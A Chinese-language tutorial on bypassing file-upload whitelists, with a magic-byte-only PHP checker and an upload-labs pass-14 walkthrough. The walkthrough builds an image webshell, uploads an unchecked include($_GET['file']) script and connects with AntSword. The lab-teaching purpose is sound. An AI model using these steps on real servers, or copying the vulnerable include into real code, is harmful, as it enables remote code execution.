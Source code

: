 # 一、文件上传白名单绕过概述
1. 文件上传白名单绕过是指攻击者通过伪造、篡改或欺骗上传文件所附带的MIME类型等方式，成功绕过基于文件类型白名单的文件上传安全校验，从而上传并执行恶意代码或文件。
2. 在面对文件上传攻击时，使用文件类型白名单是一种比使用黑名单更优秀的防御措施。因为黑名单容易被攻击者绕过，而白名单则能够根据可信的文件类型建立可靠和安全的校验规则。但是，攻击者仍然可以通过伪造MIME类型等方式来绕过白名单。
# 二、代码示例
1. 使用PHP编写一个示例
```PHP
function getReailFileType($filename){
    $file = fopen($filename, "rb");
    $bin = fread($file, 2); //只读2字节
    fclose($file);
    $strInfo = @unpack("C2chars", $bin);    
    $typeCode = intval($strInfo['chars1'].$strInfo['chars2']);    
    $fileType = '';    
    switch($typeCode){      
        case 255216:            
            $fileType = 'jpg';
            break;
        case 13780:            
            $fileType = 'png';
            break;        
        case 7173:            
            $fileType = 'gif';
            break;
        default:            
            $fileType = 'unknown';
        }    
        return $fileType;
}

$is_upload = false;
$msg = null;
if(isset($_POST['submit'])){
    $temp_file = $_FILES['upload_file']['tmp_name'];
    $file_type = getReailFileType($temp_file);

    if($file_type == 'unknown'){
        $msg = "文件未知，上传失败！";
    }else{
        $img_path = UPLOAD_PATH."/".rand(10, 99).date("YmdHis").".".$file_type;
        if(move_uploaded_file($temp_file,$img_path)){
            $is_upload = true;
        } else {
            $msg = "上传出错！";
        }
    }
}
```
2. 当文件上传存在白名单校验时，攻击者仍然可以通过上传专门制作的图片马文件，然后利用文件包含去解析写入到图片马中恶意代码达到攻击的目的。
# 三、upload-labs靶场示例
1. pass-14，先制作一个图片马
```PHP
cat shell.php >> xxx.png
```
![1.png](./img/upload/white/1.png)
2. 利用前面的关卡上传一个文件包含的php文件
```PHP
header("Content-Type: text/html;charset=utf-8");
$file = $_GET['file'];
if(isset($file)){
	include $file;
}else{
	show_source(__FILE__);
}
```
![2.png](./img/upload/white/2.png)
3. 直接上传制作好的图片马文件，如下，没有被拦截，直接上传成功了
![3.png](./img/upload/white/3.png)
4. 尝试使用蚁剑通过include.php包含图片马进行连接，如下，连接成功
![4.png](./img/upload/white/4.png)